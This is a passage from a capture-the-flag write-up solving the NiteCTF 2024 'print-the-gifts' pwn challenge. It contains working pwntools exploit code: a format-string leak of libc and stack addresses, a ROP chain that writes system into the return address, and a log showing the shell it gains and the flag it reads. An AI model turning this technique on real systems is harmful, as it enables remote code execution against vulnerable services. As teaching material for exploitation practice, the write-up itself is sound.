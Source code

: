 ```python

# ROP 4: system
mywrite(ret_addr+(8*5), libc.sym['system'])

r.sendlineafter(b'n:', b'n')
r.interactive()
```

I had to add the extra `ret` in `ROP 3` above since the `system` call wasn't 16 byte aligned. Now you've got the shell :).

```bash
[*] '/home/coraline/CTF/work/pwn-writeups/nitectf24/print-the-gifts/chall_patched'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    RUNPATH:    b'.'
    Stripped:   No
[*] '/home/coraline/CTF/work/pwn-writeups/nitectf24/print-the-gifts/libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
[+] Opening connection to print-the-gifts.chals.nitectf2024.live on port 1337: Done
[*] Libc leak: 0x7f141132d24a
[*] Stack leak: 0x7fffebf4bb78
[*] Libc base: 0x7f1411306000
[*] Ret addr: 0x7fffebf4ba68
[*] Switching to interactive mode

$ ls
chall
flag.txt
$ cat flag.txt
nite{0nLy_n4ugHty_k1d5_Use_%n}
```

## Full Script

```python
from pwn import *

context.terminal = ['tmux', 'splitw', '-v', '-p', '90']
context.arch = 'amd64'

PROG = './chall_patched'
elf = ELF(PROG)
libc = ELF('./libc.so.6')

### ------------------ EXPLOIT ------------------ ###

r = remote('print-the-gifts.chals.nitectf2024.live', 1337, ssl=True)

# pay = '.'.join([f'%{i}$llx' for i in range(20, 30)])
pay = b'%23$llx.%27$llx'
r.sendlineafter(b'>', pay)

# Parse stack and libc leak
r.recvuntil(b'you a ')
libc_leak = int(r.recvuntil(b'.')[:-1], 16)
stack_leak = int(r.recvline().strip(), 16)
```